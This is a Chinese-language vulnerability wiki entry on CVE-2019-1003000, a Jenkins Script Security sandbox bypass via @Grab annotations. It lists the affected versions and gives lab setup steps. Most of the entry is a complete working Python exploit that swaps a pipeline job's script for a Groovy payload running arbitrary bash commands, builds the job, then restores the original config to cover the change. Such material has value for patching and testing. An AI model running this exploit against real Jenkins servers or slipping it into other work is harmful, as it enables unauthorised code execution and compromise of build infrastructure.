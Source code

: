 （CVE-2019-1003000）Jenkins 远程代码执行漏洞
============================================

一、漏洞简介
------------

该漏洞存在于Declarative Plugin 1.3.4.1之前的版本, Groovy Plugin
2.61.1之前的版本以及 Script Security Plugin
1.50之前的版本。该漏洞通过将AST转换注释（如\@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有"Overall/Read"权限的用户或能够控制SCM中的Jenkinsfile或者sandboxed
Pipeline共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

二、漏洞影响
------------

Declarative Plugin \< 1.3.4.1

Groovy Plugin \< 2.61.1

Script Security Plugin \< 1.50

三、复现过程
------------

### 环境搭建

    gitclone https://github.com/ianxtianxt/cve-2019-1003000-jenkins-rce-poc.git

    cdcve-2019-1003000-jenkins-rce-poc

    pipinstall -r requirements.txt

    cdsample-vuln

    ./run.sh

**输入账号密码user1:user1**

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId25.png)

***\*poc进行攻击pythonexploit.py --url http://www.0-sec.org:8080 --job
my-pipeline --usernameuser1 --password user1 --cmd "whoami"\****

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId27.png)

### poc

    #!/usr/bin/python

    # Author: Adam Jordan
    # Date: 2019-02-15
    # Repository: https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
    # PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)


    import argparse
    import jenkins
    import time
    from xml.etree import ElementTree

    payload = '''
    import org.buildobjects.process.ProcBuilder
    @Grab('org.buildobjects:jproc:2.2.3')
    class Dummy{ }
    print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()
    '''


    def run_command(url, cmd, job_name, username, password):
        print '[+] connecting to jenkins...'
        server = jenkins.Jenkins(url, username, password)

        print '[+] crafting payload...'
        ori_job_config = server.get_job_config(job_name)
        et = ElementTree.fromstring(ori_job_config)
        et.find('definition/script').text = payload % cmd
        job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

        print '[+] modifying job with payload...'
        server.reconfig_job(job_name, job_config)
        time.sleep(3)

        print '[+] putting job build to queue...'
        queue_number = server.build_job(job_name)
        time.sleep(3)

        print '[+] waiting for job to build...'
        queue_item_info = {}
        while 'executable' not in queue_item_info:
            queue_item_info = server.get_queue_item(queue_number)
            time.sleep(1)

        print '[+] restoring job...'
        server.reconfig_job(job_name, ori_job_config)
        time.sleep(3)

        print '[+] fetching output...'
        last_build_number = server.get_job_info(job_name)['lastBuild']['number']
        console_output = server.get_build_console_output(job_name, last_build_number)

        print '[+] OUTPUT:'
        print console_output


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='Jenkins RCE')

        parser.add_argument('--url', help='target jenkins url')
        parser.add_argument('--cmd', help='system command to be run')
        parser.add_argument('--job', help='job name')
        parser.add_argument('--username', help='username')
        parser.add_argument('--password', help='password')

        args = parser.parse_args()

        run_command(args.url, args.cmd, args.job, args.username, args.password)

参考链接
--------

> https://www.freebuf.com/column/197026.html
